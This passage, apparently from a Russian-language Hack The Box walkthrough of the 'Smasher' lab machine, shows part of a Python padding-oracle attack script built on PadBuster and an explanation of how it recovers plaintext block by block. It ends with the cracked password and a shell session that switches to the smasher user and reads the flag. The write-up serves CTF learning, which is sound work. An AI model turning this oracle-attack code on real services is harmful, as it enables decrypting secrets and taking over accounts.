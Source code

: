 ```python
        os.write(1, '\x1b[3F')  # escape-последовательность для очистки трех последних строк вывода
        print(hexdump(data))
        self.r.recvuntil('Insert ciphertext:')
        self.r.sendline(b64e(data))
        recieved = self.r.recvline()

        if 'Invalid Padding!' in recieved:
            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException


if __name__ == '__main__':
    ciphertext = b64d('irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==')
    log.info('Ciphertext length: %s byte(s), %s block(s)' % (len(ciphertext), len(ciphertext) // BLOCK_SIZE))

    padbuster = PadBuster()
    plaintext = padbuster.decrypt(ciphertext, block_size=BLOCK_SIZE, iv='\x00'*16)

    log.success('Cracked: %s' % plaintext)
```

Чтобы построить свою «ломалку», необходимо всего лишь переопределить метод `oracle` в классе `PadBuster`, реализовав таким образом взаимодействие с оракулом.

![crackme-exploit.gif]({{ "/img/htb/boxes/smasher/crackme-exploit.gif" | relative_url }}))

Метод `decrypt` сосредоточен на двух блоках: восстанавливаемом (`P2`) и подбираемом (`C1'`). Второй блок шифртекста (восстанавливаемый) остается неизменным, в то время как первый блок (подбираемый) изначально заполнен нулями. На старте атаки последний байт первого блока, начиная со значения `0xff`, уменьшается до тех пор, пока не будет обработано исключение `BadPaddingException`. После этого фокус смещается на предпоследний байт, процесс повторяется заново — и так далее для всех последующих блоков.

![crackme-exploit.png]({{ "/img/htb/boxes/smasher/crackme-exploit.png" | relative_url }})

Через десять минут у нас есть содержимое всех четырех блоков секретного сообщения (в последнем блоке, к слову, ему до полной длины не хватало 6 байт) с паролем пользователя smasher. Теперь мы можем повысить привилегии и забрать user-флаг.

Отмечу, что нам удалось дешифровать даже первый блок ШТ, так как мы угадали вектор инициализации. Он, как будет видно по содержимому `crackme.py`, полностью состоял из нулей.

```
www@smasher:~$ su - smasher
Password: PaddingOracleMaster123
smasher@smasher:~$ whoami
smasher
smasher@smasher:~$ cat user.txt
baabc5e4????????????????????????
```
